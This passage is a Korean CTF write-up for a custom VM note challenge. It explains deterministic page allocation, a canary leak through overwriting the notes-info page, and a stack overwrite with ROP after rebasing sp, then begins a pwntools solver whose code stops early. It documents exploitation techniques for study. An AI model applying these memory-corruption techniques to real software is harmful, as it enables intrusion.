그리고 앞서 살펴봤듯이 할당받는 페이지의 주소는 결정론적입니다. 로컬에서 VM을 실행시켜 확인해본 결과, 노트들의 정보를 담는 페이지는 `0x59000`, 노트 1~4번은 `0xc4000`, `0x1c000`, `0x3a000`, `0xdd000` 에 할당됩니다. 또한 stack의 주소는 ASLR이 없어 항상 동일하고, 이 문제에는 기본적인 canary가 구현되어 있습니다.

solver는 다음과 같이 동작합니다.

1. 1번 노트는 flag를 열 때 사용할 'flag' string만 담습니다.
2. 2번 노트의 주소는 노트들의 정보가 담긴 페이지보다 앞에 있습니다. 그러므로 이를 통해 해당 페이지를 덮을 수 있습니다. 2번 노트를 통해서 노트들의 정보를 담는 페이지를 덮어, 3번 노트의 주소에 canary의 값이 적힌 주소를 넣어줍니다.
3. 1번 기능(노트 제목 열람)을 통해서 canary 값을 읽어옵니다.
4. 3번 노트는 stack과 멀기 때문에 더미 값을 넣어줍니다.
5. 4번 노트를 통해 stack을 덮어줍니다. 이 때 stack 영역이 `0xf4000 ~ 0xf5fff` 까지이고, stack 영역까지 덮을 때 sp의 값이 `0xf5fb6` 이기 때문에 ROP를 실행할 수 있는 충분한 공간이 나오지 않습니다. 그러므로 sp를 `0xf5000`으로 rebase 한 뒤 ROP를 실행할 수 있도록 정보를 세팅해줍니다. (`\x00\x3d\x20` 이 `0xf5000`입니다.)

(Proof of work는 인터넷에서 검색하면 나오는 7amebox 2의 코드를 그대로 사용했습니다.)

```python
from pwn import *
from time import sleep
import random
import hashlib, itertools

# proof of work
# https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2016/PCTF/crypto/rabit
def proof_of_work(prefix, plen, endv):
    charset = string.letters + string.digits

    # Bruteforce bounds
    lower_bound = plen - len(prefix)
    upper_bound = plen - len(prefix)

    # Find proof-of-work candidate
    for p in itertools.chain.from_iterable((''.join(l) for l in itertools.product(charset, repeat=i)) for i in range(lower_bound, upper_bound + 1)):
        # Should be sufficient charset
        candidate = prefix + p
        assert (len(candidate) == plen)

        if ((candidate[:len(prefix)] == prefix) and (hashlib.sha1(candidate).hexdigest()[-6:] == endv)):
            return candidate

    raise Exception("[-] Could not complete proof-of-work...")
    return

HOST ='58.229.253.146'
PORT = 8888

r = remote(HOST, PORT)
# proof of work
print 'proof of work'
r.recvuntil('prefix : ')
prefix = r.recvline().strip()
found = proof_of_work(prefix, 30, '000000')
r.sendline(found)
print 'done'

r10 = 0x59000
page1 = 0xc4000
page2 = 0x1c000
page3 = 0x3a000
page4 = 0xdd000

# First page (dummy)
r.sendline('2')
```